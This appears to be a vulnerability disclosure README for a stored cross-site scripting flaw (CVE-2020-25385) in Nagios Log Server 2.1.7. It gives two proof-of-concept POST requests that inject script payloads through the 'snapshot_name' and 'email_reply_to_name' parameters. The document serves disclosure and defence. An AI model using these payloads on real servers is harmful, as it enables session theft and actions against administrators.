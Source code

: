 # Nagios-Log-Server-2.1.7-Persistent-Cross-Site-Scripting
A stored cross-site scripting (XSS) in [Nagios Log Server 2.1.7](https://www.nagios.com/products/nagios-log-server/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

[Nagios Log Server 2.1.7](https://www.nagios.com/products/nagios-log-server/) and older versions are affected by these vulnerabilities.

# CVE-2020-25385
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25385

# PoC-1
To exploit vulnerability, someone could use a POST request to '/nagioslogserver/configure/create_snapshot' by manipulating 'snapshot_name' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /nagioslogserver/configure/create_snapshot HTTP/1.1
Host: [TARGET]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
DNT: 1
Connection: close
Cookie: csrf_ls=b3bef5c1a2ef6e4c233282d1c1c229fd; ls_session=883lergotgcjbh9bjgaeakosv5go2gbb; PHPSESSID=nbah0vkmibpudd1qh7qgnpgo53
Upgrade-Insecure-Requests: 1

csrf_ls=b3bef5c1a2ef6e4c233282d1c1c229fd&snapshot_name=%22%3E%3Cscript%3Ealert%28document.domain%29%3B%3C%2Fscript%3E
```

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS.png)

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS_Request.png)

# PoC-2
To exploit vulnerability, someone could use a POST request to '/nagioslogserver/admin/mail' by manipulating 'email_reply_to_name' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /nagioslogserver/admin/mail HTTP/1.1
Host: [TARGET]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 291
DNT: 1
Connection: close
Cookie: csrf_ls=6e418c757282ab5c4785dad327238158; ls_session=pscogfricmnpe9kpvbtcuccn8mfempgp
Upgrade-Insecure-Requests: 1

csrf_ls=6e418c757282ab5c4785dad327238158&email_from_name=Nagios+Log+Server&email_from=root%40localhost&email_reply_to_name=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&email_reply_to=root%40localhost&email_method=mail&smtp_host=&smtp_crypto=&smtp_port=25&smtp_user=&smtp_pass=
```

![](https://emreovunc.com/blog/en/Nagios_Log_Server_Persistent_XSS-02.png)

